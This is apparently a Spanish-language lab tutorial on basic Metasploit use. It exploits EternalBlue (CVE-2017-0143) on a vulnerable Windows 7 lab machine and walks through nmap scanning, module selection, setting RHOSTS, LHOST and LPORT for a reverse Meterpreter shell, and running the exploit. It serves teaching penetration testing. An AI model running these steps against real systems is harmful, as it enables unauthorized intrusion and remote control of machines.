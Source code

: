 # Uso Básico de Metasploit – Explotación EternalBlue

Maquinas que vamos a utilizar Kali Linux y Windows 7 vulnerable

Hemos hecho la búsqueda de equipos en la red y hemos escogido un maquina y un puerto para hacerle un script de vulnerabilidades 

```bash
nmap --script "vuln" -p445 10.0.3.6
```

Siendo este el resultado: 

![image.png](./imagenes/image.png)

Muestro objetivo en este ejercicio es entrar en la maquina objetivo que es un Windows 7.

Copiamos el CVE y lo apuntamos por que lo vamos a necesitar. **CVE-2017-0143**

- Vamos a abrir el Metasploit Framework. Lo podemos hacer de dos maneras **escribiendo el siguiente comando**:
    
    ```bash
    sudo msfdb init && msfconsole 
    ```
    
    <aside>
    💡
    
    **`sudo msfdb init`**:
    
    - Este comando inicializa la base de datos que utiliza Metasploit. `msfdb` gestiona bases de datos, como PostgreSQL, que se emplean para almacenar información sobre los hosts y exploits durante la ejecución de Metasploit.
    - Requiere permisos de superusuario (`sudo`) para configurar correctamente los servicios relacionados.
    
    **`&&`**: 
    
    - Permite encadenar comandos. Su función es sencilla: el segundo comando se ejecutará solo si el primero se completa con éxito (es decir, si no hay errores en el primer comando).
    
    **`msfconsole`**:
    
    - Este comando lanza la consola interactiva de Metasploit. Es el punto principal de interacción con el framework.
    </aside>
    

O desde el **menú de aplicaciones**:

![image.png](/imagenes/image%201.png)

- Ya dentro del del Metasploit vamos a utilizar el comando **search.**
    
    Tenemos dos opciones podemos escribir el CVE o la vulnerabilidad que previamente habremos averiguado haciendo una investigación por internet.
    
    ![image.png](./imagenes/image%202.png)
    
    ![image.png](./imagenes/image%203.png)
    
    A partir de aquí es ir probando, no hay un método infalible, nos fijaremos en el ranquin por ejemplo.
    
- Vamos a **usar el exploit** numero 0:
    
    `use 0`
    
    ![image.png](./imagenes/image%204.png)
    
    Como vemos el prompt a cambiado indicándonos que a cargado el exploit y que estamos dentro de el.
    
    - Le decimos que nos muestre las **opciones de configuración del exploit**:
        
        `show options`
        
        ![image.png](./imagenes/image%205.png)
        
        <aside>
        💡
        
        Tenemos que tener en cuenta que dentro del exploit existen el exploit en si y el Payload (la carga útil).
        
        **Exploit**:
        
        - Un ***exploit*** es un código o técnica que aprovecha una vulnerabilidad o debilidad en un sistema, software o aplicación. El propósito de un exploit puede variar, pero generalmente es para obtener acceso no autorizado, ejecutar comandos o causar un fallo en el sistema.
        
        **Payload**:
        
        - Un ***payload*** es el "código útil" que se ejecuta una vez que el exploit tiene éxito. En otras palabras, es lo que hace el trabajo real después de que se ha explotado la vulnerabilidad.
        - Los payloads pueden realizar varias acciones: abrir una puerta trasera (*backdoor*), obtener información del sistema, agregar un usuario administrativo, o incluso ejecutar malware.
        </aside>
        
        ![image.png](./imagenes/image%206.png)
        
        Si nos fijamos vemos que hay campos que son obligatorios y otros no y campos que ya están rellenados. Pues debemos rellenar al menos los campos obligatorios para que el exploit pueda ser lanzado.
        
        - Empezamos. **RHOSTS que seria la IP de la maquina victima** que previamente hemos conseguido en el reconocimiento de la red.
            
            `set RHOSTS 10.0.3.6`
            
            ![image.png](./imagenes/image%207.png)
            
            Vamos a verificar que se a cargado el parámetro. hacemos un `clear` y un `show options` .
            
            ![image.png](./imagenes/image%208.png)
            
        
        - **RPORT el puerto contra el que lanzaremos el exploit**. En este caso ya viene por defecto ya. Pero si configuramos otro exploit debemos fijarnos si esta puesto y si es el correcto para ese exploit en concreto.
        
        Miraremos también que la configuración del Payload sea la correcta. Por ejemplo **LHOST** seria la IP de nuestra maquina atacante y esto es importante por que es donde yo voy a recibir la conexión reverse, Ya que es donde yo quiero enviarme a mi mismo el control de la maquina victima.
        
        En caso de querer saber nuestra IP podemos usar estos comandos en una terminal.
        
        - `ifconfig`
        - `hostname -I`
        
        **LPORT seria el puerto que esta a la escucha** , por norma general Metasploit ya tiene unos puertos por defecto para esto y nos los escoge por defecto.
        
        **La modificación** de estos datos **seria siempre igual** :
        
        `set RHOSTS 10.0.3.6`
        
        `set LHOST 10.0.3.4`
        
        `set LPORT 4444`
        
        `etc…`
        
        Cuando estemos listos. Para ejecutar el exploit podemos usar el comando `run` o el comando `exploit`
        
        ![image.png](./imagenes/image%209.png)
        
        ![image.png](./imagenes/image%2010.png)
        
        Como vemos nos muestra el **prompt de una consola Meterpreter**. Aquí entra en juego **saber manejar comandos de Linux o Windows**. En este caso como estamos dentro de una maquina Windows debemos saber movernos con los comandos de un terminal CMD.
        
        ![image.png](./imagenes/image%2011.png)
        
        ![image.png](./imagenes/image%2012.png)
        
        Vamos a hacer una prueba. vamos a crear una carpeta dentro del escritorio de Windows.
        
        ![image.png](./imagenes/image%2013.png)
        
        ![image.png](./imagenes/image%2014.png)
        
        ![image.png](./imagenes/image%2015.png)
        
        Esto es básicamente como se explota una vulnerabilidad de forma estándar.